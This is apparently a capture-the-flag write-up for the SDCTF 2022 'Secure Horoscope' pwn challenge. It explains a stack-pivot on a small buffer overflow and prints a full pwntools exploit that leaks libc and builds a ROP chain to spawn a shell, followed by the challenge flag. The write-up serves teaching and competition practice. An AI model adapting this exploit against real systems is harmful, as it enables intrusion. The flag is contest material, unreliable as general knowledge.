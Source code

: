 ```yaml
---
title: "[Pwn] Secure Horoscope [SDCTF 2022]"
date: 2022-05-09 20:02:00
---
```


# 0x0 Introduction

Medium

Our horoscope developers have pivoted to a more security-focused approach to predicting the future. You won’t find breaking into this one quite so easy!

Connect
nc sechoroscope.sdc.tf 1337

By green beans

files: [secureHoroscope](secureHoroscope)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

In function `dbg.getInfo`, there is `0x8c-0x70 = 0x1c` long buffer over. Although it is very small. It still allow us to do a stack pivot.

1. overwrite rbp to writable memory page, jump `dbg.getInfo` again, but skip callee prologue so that rbp stay the same.
2. write payload (leak libc address and return to dbg.getInfo) to current stack frame
3. double leave ret, point rsp to our payload
4. write ropchain for calling system("/bin/sh") to get shell

# 0x3 Exploit

```
from pwn import *

exe = ELF("secureHoroscope_patched")
exe_rop = ROP(exe)
libc = ELF("libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
# context.log_level = 'DEBUG'

def log_print(*msg):
    log.info(" ".join(map(str,msg)))

def start():
    if args.LOCAL:
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("sechoroscope.sdc.tf", 1337)
    return r

ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = exe_rop.find_gadget(['pop rdi', 'ret'])[0]

io = start()
io.sendlineafter(b'feel\n',b"AAAAA")

writable = 0x601900

print(hex(exe.sym["puts"]))
# print(hex(exe.got["puts"]))
input("wait")
io.sendlineafter(b'horoscope\n\n',flat({
    0x70:writable,
    0x70+8:0x004007b9
}))
io.recvuntil(b"business days.\n")

input("wait")
io.send(flat({
    0:[
        writable-0x70 + 0x8*5,# new rbp
        pop_rdi_ret_addr,
        exe.got["puts"],
        exe.sym["puts"],
        0x004007fd, # fflush, leave ret
        writable-0x70 + 0x8*5 +0x8 + 0x70, # rbp
        0x004007cf,
    ],
    0x70:writable-0x70,
    0x70+8:0x0040080d # leave ret
}))
io.recvuntil(b"business days.\n")
libc.address = int.from_bytes(io.recvuntil(b"\n",drop=True),"little") - libc.sym["puts"]
log_print("base libc addr",hex(libc.address))
input("wait")
io.send(flat({
    0:[
        pop_rdi_ret_addr,
        next(libc.search(b"/bin/sh")),
        libc.sym["system"]
    ],

}))
io.interactive()
```

# 0x4 Flag

sdctf{Th0s3_d4rN_P15C3s_g0t_m3}
